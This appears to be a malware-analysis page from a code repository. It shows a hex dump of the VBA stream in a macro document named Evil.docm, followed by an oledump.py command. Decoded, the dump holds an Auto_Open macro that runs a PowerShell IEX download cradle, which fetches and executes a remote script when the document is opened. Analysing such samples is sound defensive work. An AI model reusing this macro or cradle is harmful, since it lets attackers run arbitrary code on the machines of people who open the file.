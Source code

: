 ```
000003A0: 02 00 FF FF FF FF 00 00  00 00 00 00 DF 00 00 00  ................
000003B0: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000003C0: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000003D0: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000003E0: 00 00 00 00 00 00 00 00  00 FE CA 01 00 0B 00 22  ..............."
000003F0: 81 08 00 06 00 00 00 00  00 00 00 00 80 08 04 08  ............�...
00000400: 00 00 00 08 00 00 00 00  81 08 04 98 00 00 00 60  ...............`
00000410: 00 00 00 00 81 08 04 0C  00 00 00 10 00 00 00 04  ................
00000420: 81 08 00 02 00 00 00 20  00 00 00 22 81 08 00 06  ....... ..."....
00000430: 00 00 00 28 00 00 00 00  81 08 04 06 00 00 00 30  ...(...........0
00000440: 00 00 00 04 81 08 00 02  00 00 00 38 00 00 00 22  ...........8..."
00000450: 81 08 00 06 00 00 00 48  00 00 00 00 81 08 04 06  .......H........
00000460: 00 00 00 50 00 00 00 04  81 08 00 02 00 00 00 58  ...P...........X
00000470: 00 00 00 FF FF FF FF 01  01 00 01 00 00 96 04 40  ...............@
00000480: 00 00 00 00 00 5D 00 F5  04 A0 00 00 00 20 00 36  .....]....... .6
00000490: 02 1D 00 41 40 38 02 01  00 10 00 00 00 6F 00 FF  ...A@8.......o..
000004A0: FF 18 00 00 00 96 04 B8  00 00 00 00 00 41 40 34  .............A@4
000004B0: 02 00 00 00 00 6F 00 FF  FF 00 00 00 00 FF FF FF  .....o..........
000004C0: FF 38 00 00 00 96 04 08  01 00 00 00 00 41 40 34  .8...........A@4
000004D0: 02 00 00 00 00 6F 00 FF  FF 98 00 00 00 B9 00 90  .....o..........
000004E0: 00 70 6F 77 65 72 73 68  65 6C 6C 2E 65 78 65 20  .powershell.exe 
000004F0: 22 49 45 58 20 28 28 6E  65 77 2D 6F 62 6A 65 63  "IEX ((new-objec
00000500: 74 20 6E 65 74 2E 77 65  62 63 6C 69 65 6E 74 29  t net.webclient)
00000510: 2E 64 6F 77 6E 6C 6F 61  64 73 74 72 69 6E 67 28  .downloadstring(
00000520: 27 68 74 74 70 73 3A 2F  2F 6F 72 69 67 30 33 2E  'https://orig03.
00000530: 64 65 76 69 61 6E 74 61  72 74 2E 6E 65 74 2F 31  deviantart.net/1
00000540: 32 36 66 2F 66 2F 32 30  30 39 2F 31 35 36 2F 38  26f/f/2009/156/8
00000550: 2F 35 2F 6F 77 6C 5F 62  65 61 72 5F 62 79 5F 62  /5/owl_bear_by_b
00000560: 65 6E 77 6F 6F 74 74 65  6E 2E 6A 70 67 27 29 29  enwootten.jpg'))
00000570: 22 27 00 36 02 FF FF FF  FF C0 01 00 00 FF FF FF  "'.6............
00000580: FF 01 01 08 00 00 00 FF  FF FF FF 78 00 00 00 FF  ...........x....
00000590: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
000005A0: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
000005B0: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
000005C0: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
000005D0: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
000005E0: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
000005F0: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000600: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000610: FF FF FF 00 00 01 19 B1  00 41 74 74 72 69 62 75  .........Attribu
00000620: 74 00 65 20 56 42 5F 4E  61 6D 00 65 20 3D 20 22  t.e VB_Nam.e = "
00000630: 4E 65 77 00 4D 61 63 72  6F 73 22 0A 00 53 75 62  New.Macros"..Sub
00000640: 20 41 75 74 6F 00 5F 4F  70 65 6E 28 29 0A 02 20   Auto._Open().. 
00000650: 00 00 44 69 6D 20 65 78  80 65 63 20 41 73 20 53  ..Dim ex�ec As S
00000660: 00 7C 1C 6E 67 02 2C 02  24 00 7A 70 6F 77 00 65  .|.ng.,.$.zpow.e
00000670: 72 73 68 65 6C 6C 2E 01  00 24 20 22 22 49 45 58  rshell...$ ""IEX
00000680: 20 00 28 28 6E 65 77 2D  6F 62 00 6A 65 63 74 20   .((new-ob.ject 
00000690: 6E 65 74 00 2E 77 65 62  63 6C 69 65 00 6E 74 29  net..webclie.nt)
000006A0: 2E 64 6F 77 6E 20 6C 6F  61 64 73 02 4B 28 27 00  .down loads.K('.
000006B0: 68 74 74 70 73 3A 2F 2F  00 6F 72 69 67 30 33 2E  https://.orig03.
000006C0: 64 00 65 76 69 61 6E 74  61 72 04 74 2E 00 38 2F  d.eviantar.t..8/
000006D0: 31 32 36 66 00 2F 66 2F  32 30 30 39 2F 00 31 35  126f./f/2009/.15
000006E0: 36 2F 38 2F 35 2F 00 6F  77 6C 5F 62 65 61 72 08  6/8/5/.owl_bear.
000006F0: 5F 62 79 00 07 6E 77 6F  6F 00 74 74 65 6E 2E 6A  _by..nwoo.tten.j
00000700: 70 67 40 27 29 29 22 22  22 02 9F 53 09 01 92 20  pg@'))"""..S... 
00000710: 28 01 A6 29 0A 45 6E 7C  64 20 00 DB 06 DF 08 6F  (..).En|d .....o
00000720: 06 77 0A 12 57 80 6F 72  6B 62 6F 6F 6B 09 84 01  .w..W�orkbook...
00000730: 8F 14                                             ..
```
```
$ oledump.py -s 4 Evil.docm 
00000000: 01 16 03 00 00 F4 00 00  00 B8 02 00 00 D8 00 00  ................
00000010: 00 DE 01 00 00 FF FF FF  FF BF 02 00 00 13 03 00  ................
```